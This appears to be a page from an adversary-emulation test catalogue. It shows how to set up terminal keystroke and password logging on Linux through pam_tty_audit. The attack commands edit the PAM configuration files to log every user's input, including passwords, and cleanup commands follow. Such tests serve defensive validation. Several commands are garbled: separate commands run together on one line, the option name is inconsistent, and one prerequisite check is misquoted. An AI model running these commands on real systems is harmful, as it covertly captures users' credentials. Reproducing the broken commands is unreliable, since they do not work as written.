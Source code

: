 Passwords hidden by the console can also be logged, with 'log_passwd' as in this example.  If root logging is enabled, then output from any process which is later started by root is also logged, even if this policy is carefully enabled (e.g. 'disable=*' as the initial command).

Use 'aureport --tty' or other audit.d reading tools to read the log output, which is binary.  Mac OS does not currently contain the pam_tty_audit.so library.

**Supported Platforms:** Linux


**auto_generated_guid:** 9c6bdb34-a89f-4b90-acb1-5970614c711b






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
if sudo test -f /etc/pam.d/password-auth; then sudo cp /etc/pam.d/password-auth /tmp/password-auth.bk; fi;
if sudo test -f /etc/pam.d/system-auth; then sudo cp /etc/pam.d/system-auth /tmp/system-auth.bk; fi;
sudo touch /tmp/password-auth.bk
sudo touch /tmp/system-auth.bk sudo echo "session    required    pam_tty_audit.so
enable=* log_password" >> /etc/pam.d/password-auth sudo echo "session    required    pam_tty_audit.so
enable=* log_password" >> /etc/pam.d/system-auth
```

#### Cleanup Commands:
```sh
sudo cp -f /tmp/password-auth.bk /etc/pam.d/password-auth
sudo cp -f /tmp/system-auth.bk /etc/pam.d/system-auth
```



#### Dependencies:  Run with `sh`!
##### Description: Checking if pam_tty_audit.so is installed
##### Check Prereq Commands:
```sh
test -f '/usr/lib/pam/pam_tty_audit.so -o  /usr/lib64/security/pam_tty_audit.so'
```
##### Get Prereq Commands:
```sh
echo "Sorry, you must install module pam_tty_audit.so and recompile, for this test to work"
```




<br/>
<br/>

## Atomic Test #3 - Logging bash history to syslog
There are several variables that can be set to control the appearance of the bash command prompt: PS1, PS2, PS3, PS4 and PROMPT_COMMAND. The contents of these variables are executed as if they had been typed on the command line. The PROMPT_COMMAND variable "if set" will be executed before the PS1 variable and can be configured to write the latest "bash history" entries to the syslog.
